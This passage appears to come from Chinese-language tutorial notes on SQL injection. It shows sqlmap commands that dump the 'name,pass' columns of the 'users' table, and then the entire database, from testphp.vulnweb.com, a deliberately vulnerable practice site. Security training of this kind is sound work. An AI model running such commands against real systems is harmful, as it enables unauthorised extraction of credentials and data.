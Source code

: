 

查询到“acuart”数据库中的”users“表中的列名

![image-20240412105759295](../图片/image-20240412105759295.png)

查询“acuart”数据库中的”users“表中“name,pass”列名的字段

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --dump -C "name,pass"  -T "users" -D "acuart" --batch
```

![image-20240412110217426](../图片/image-20240412110217426.png)

查询到“acuart”数据库中的”users“表中“name,pass”列名的字段

![image-20240412110228337](../图片/image-20240412110228337.png)

查询当前数据库所有东西

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --dump -all --batch
```
